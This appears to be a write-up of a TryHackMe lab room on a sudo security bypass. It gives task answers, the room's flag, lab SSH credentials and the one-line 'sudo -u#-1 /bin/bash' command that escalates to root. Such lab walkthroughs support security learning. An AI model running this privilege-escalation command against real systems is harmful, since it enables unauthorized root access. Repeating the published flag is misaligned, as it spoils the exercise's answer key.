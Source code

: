#### Link to room: https://tryhackme.com/room/sudovulnsbypass

#### [Task 1] Deploy!
   1. No answer needed

#### [Task 2] Security Bypass
   1. /bin/bash
> Hint: 
>
> SSH in with the following command: "ssh -p 2222 tryhackme@\<GIVEN-IP-ADDRESS\>"
>
> Enter "Yes" to continue and enter the password "tryhackme"
>
> You should now see that we are now "tryhackme@sudo-privesc:~$"
>
> If you type the command "sudo -l", we are able to see which commands the tryhackme user is able to run as root
>
> You should be able to see: "User tryhackme may run the following commands on sudo-privesc: | (ALL, !root) NOPASSWD: /bin/bash"
>
> This means we can run a bash shell as any other user - apart from root

   2. THM{l33t_s3cur1ty_bypass}
> Hint:
>
> If we enter the following command: "sudo -u#-1 /bin/bash" 
>
> sudo = because we want to be able to run as the root user 
>
> -u#1-1 = the vulnerability that allows us to be the root user 
>
> /bin/bash = the command that we found out earlier that we are able to run
>
> Once we issue that command, we can see that we are now: "root@sudo-privesc:~#"
>
> If you type the command "cat /root/root.txt", you will see the answer 
